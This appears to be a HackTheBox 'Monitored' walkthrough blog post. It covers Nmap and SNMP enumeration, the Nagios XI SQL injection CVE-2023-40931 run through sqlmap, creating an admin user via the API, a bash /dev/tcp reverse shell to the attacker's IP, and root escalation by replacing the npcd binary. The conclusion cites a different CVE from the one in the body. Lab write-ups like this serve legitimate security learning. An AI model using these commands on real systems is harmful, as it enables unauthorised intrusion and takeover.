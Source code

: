 +++ 
draft = false
date = 2024-02-17T13:07:16+01:00
title = "Monitored HTB Walkthrough"
description = ""
slug = ""
authors = ["Dennis Drebitca"]
tags = ["NMAP UDP", "JohnTheRipper", "CVE-2023-40931", "Dirsearch", "UDP enumeration", "SNMPwalk", "SQLmap", "SQL injection"]
categories = []
externalLink = ""
series = []
+++

![image](Screenshot_20.png)

The Monitored HTB machine is a medium difficulty level HackTheBox Machine. The main tools and techniques used to crack this machine are:

        - Dirsearch
        - CVE-2023-40931
        - NMAP UDP scan
        - SNMP enumeration with SNMPwalk
        - JohnTheRipper
        - SQL injection with SQLmap


## Reconnaissance

We start a broad Nmap TCP scan by executing the following command:

```sh
sudo nmap -sS -T5 -vvv -p- 10.10.11.248 -Pn -oG nmap_inicial
```

Where the arguments mean:

    -sS: SYN port scan
    -T5: Using timing template 5 of NMAP
    -vvv: Triple verbose so NMAP prints a lot of information
    -p-: All ports are scanned
    -Pn: Skips Host Discovery
    -oG: Grep Format

The scan returns the following information:

![image](Screenshot_2.png)

THere are a lot of open ports besides 22, 80 and 443. What is interesting is that port 389 (LDAP) is open. Next, we run a more comprehensive scan on the open ports to discover services and versions running on them:

```sh
sudo nmap -sCV -p22,80,389,443,5667,8081 10.10.11.248 -oN nmap_exhaustivo -v
```

Now the arguments used mean:

    -sCV: Launches all scanning scripts to discover services and versions running on these ports
    -oN: Normal output format
    -v: Single verbose

The results for this second scan are the following:

![image](Screenshot_3.png)

However, in this machine, there is more interesting ports to be discovered. This is revealed by running a NMAP UDP scan:

```sh
sudo nmap -sU -p- 10.10.11.248 --defeat-icmp-ratelimit --min-rate 5000 -oN nmap_udp
```
    -sU: UDP scan
    -oN: Normal output format
    --defeat-icmp-ratelimit: Used to speed up the scan since UDP scans take longer
    --min-rate: Specifies the minimum packets/second transmitted

Te results for the UDP scan are the following:

![image](Screenshot_4.png)

Port 161 is open. Now lets run a more comprehensive scan to see what is running on port 161, which is usually SNMP.

```sh
sudo nmap -sUCV -p161 10.10.11.248
```

    -sUCV: Launches all scanning scripts to discover services and versions running on these ports over UDP.

This scan reveals that, in fact, the service running IS SNMP v2c. This is good because the SNMP reconnaissance can provide a lot of information.

![image](Screenshot_5.png)

In the meantime, lets use dirsearch to do some subdomain discovery:

```sh
dirsearch -u https://monitored.htb/ --exclude-status 403,404,500
```
![image](Screenshot_1.png)

There is a interesting /nagios subdirectory. Upon trying to access the website, we are prompted for credentials which we don't have yet.

Adding monitored.htb to /etc/hosts, we can visit the webpage. From there, we can acces the website https://monitored/nagiosxi/login, where we can log in with valid credentials. Default and common credentials don't work either, so we have to keep looking.

### SNMP enumeration

For SNMP enumeration, there is a very good guide on [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp). We are going to use SNMPwalk with public credentials to see what information we can get:

```sh
snmpwalk -v2c -c public 10.10.11.248
```
There is a very interesting line where we can see the svc credentials:

![image](Screenshot_6.png)

## Initial foothold

With this credentials, we can log in to the nagios core portal, https://monitored.htb/nagios. We are greeted with the following panel:

![image](Screenshot_7.png)

We can not do much here. Doing some research, I have stumbled upon [CVE-2023-40931](https://medium.com/@n1ghtcr4wl3r/nagios-xi-vulnerability-cve-2023-40931-sql-injection-in-banner-ace8258c5567). It represents a sql injection possible when authenticated. However, we need an authentication token to make it work. It can be obtained with a POST request to the api:

```sh
curl -ksX POST https://monitored.htb/nagiosxi/api/v1/authenticate --data "username=svc&password=XjH7VCehowpR1xZB"
```

The response is the following:

```sh
{"username":"svc","user_id":"2","auth_token":"6ed830a5d45b3fd199bcabf0dee5940ef39be98a","valid_min":5,"valid_until":"Sat, 17 Feb 2024 17:44:12 -0500"}
```

By specifying the valid_min parameter to a higher numer, the token will be valid for longer.

```sh
curl -ksX POST https://monitored.htb/nagiosxi/api/v1/authenticate --data "username=svc&password=XjH7VCehowpR1xZB&valid_min=1200"
```

```sh
{"username":"svc","user_id":"2","auth_token":"da04dba2da704a7f7a135585fbab1e0d7d75c1a8","valid_min":1200,"valid_until":"Sun, 18 Feb 2024 13:40:19 -0500"}
```

Now we have the necessary ingredients to exploit CVE-2023-40931. We have to make a POST resquest to /nagiosxi/admin/banner_message-ajaxhelper.php with the data action=acknowledge_banner_message&id=3, where the parameter ID is injectable. For this SQL injection, we are going to use SQLmap, an automatic SQLi script.

```sh
sqlmap -u "https://monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=<TOKEN>" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users
```
By dumping the xi_users table, we get the information of the users of nagiosxi:

![image](Screenshot_8.png)

	- Nagios Administrator: nagiosadmin
	- apikey: IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL


We can try to also crack the hash using JohnTheRipper

![image](Screenshot_9.png)

The credentials are:

```sh
nagiosadmin::test123
```

These credentials don't work, so maybe the account is disabled or blocked. However, upon doing some more research, it seems like we can add another user to nagiosxi via the API (https://support.nagios.com/forum/viewtopic.php?t=42923). For this, the apikey we got earlier for the nagiosadmin user will be handy.

```sh
curl -ksX POST "https://monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL" -d "username=dennis&password=dennis&name=dennis&email=dennis@localhost&auth_level=admin"
```
![image](Screenshot_10.png)

We now can access the nagiosxi portal using the credentials dennis::dennis. On the configure/Core Config Manager page, we can specify a custom command. This is a perfect way to establish a reverse shell to the underlying system.

![image](Screenshot_12.png#center)

We can add the custom command which  will send a reverse shell:


```sh
bash -c 'bash -i >& /dev/tcp/10.10.15.47/1234 0>&1'
```

![image](Screenshot_11.png#center)

However, no reverse shell is received. Doing some more digging, we have so set it up as s service. This is achieved in Service Management, editing one of the existing services to run our command.

![image](Screenshot_13.png)

Now we have access to the underlying system as user nagios. We do some TTy treatment to have a full interactive tty:

![image](Screenshot_14.png)

## Privilege escalation

Lets see what commands can user nagios execute as root:

```sh
sudo -l
```

![image](Screenshot_15.png)

There is interesting commands that this user can run. The most interesting one is manage_services.sh. This is what this script does:

![image](Screenshot_17.png)

It looks like it can manage the services run under the nagios hood. This is interesting because we can maybe hikack this services. This is exactly what we are going to do with the npcd executable: Delete de original one, replace it with our own code and restart the services using manage_services.sh. It should retur a root shell.

```sh
rm /usr/local/nagios/bin/npcd # Delete originl binary
nano /usr/local/nagios/bin/npcd # Create our own script
chmod +x /usr/local/nagios/bin/npcd # Give it +x permmissions
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd # Restart the service
```

The content of the new executable is a new reverse shell, hopefully as root:

![image](Screenshot_18.png#center)

And indeed, we now have root access to the system and can read the root flag. The machine is PWNED.

![image](Screenshot_19.png)

## Conclusion

This machine reveals the importance of not having insecure information avaliable via SNMTP, as this information leak can transform into a very severe security hole. With access to the svc account, we managed to leverage CVE-2023-51457 to access the admin panel and compromise the underlying system.

![image](Screenshot_20.png)